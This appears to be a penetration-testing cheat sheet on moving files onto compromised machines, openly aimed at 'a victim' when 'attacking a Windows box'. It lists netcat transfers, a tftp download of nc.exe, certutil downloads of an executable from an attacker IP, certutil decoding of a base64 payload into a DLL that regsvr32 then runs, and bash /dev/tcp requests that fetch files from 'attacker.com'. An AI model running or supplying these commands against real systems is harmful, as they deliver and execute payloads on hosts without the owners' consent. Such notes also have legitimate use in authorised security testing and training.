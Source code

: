 ### Netcat File Transfer

Because if Netcat is on the system, everything becomes easier:

{% code overflow="wrap" %}
```sh
listener: nc -l -p 4444 > output.file
  sender: nc -w 3 [destination] 4444 < input.file
```
{% endcode %}

(and if it's not - go get it: `tftp -i 10.1.1.666 get nc.exe`)

### Certutil.exe Transfer

Using `certutil.exe` is a clever way to get files down to a victim if you are attacking a Windows box and limited on methods:

{% code overflow="wrap" %}
```powershell
certutil.exe -urlcache -split -f http://10.10.15.11/burmat.exe C:\temp\burmat.exe
```
{% endcode %}

You can also write a file from Base64 encoded text, too:

{% code overflow="wrap" %}
```powershell
certutil.exe -decode C:\temp\payload.txt C:\temp\payload.dll
regsvr32 /s /u C:\temp\payload.dll
```
{% endcode %}

(_Source:_ [_http://carnal0wnage.attackresearch.com/2017/08/certutil-for-delivery-of-files.html_](http://carnal0wnage.attackresearch.com/2017/08/certutil-for-delivery-of-files.html) )

### HTTP GET Request via Bash

{% code overflow="wrap" %}
```sh
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_get
bash -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
    3<>/dev/tcp/$RHOST/$RPORT \
    | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
```
{% endcode %}

### RAW TCP Connection

Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.

{% code overflow="wrap" %}
```sh
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_get
bash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
```
{% endcode %}
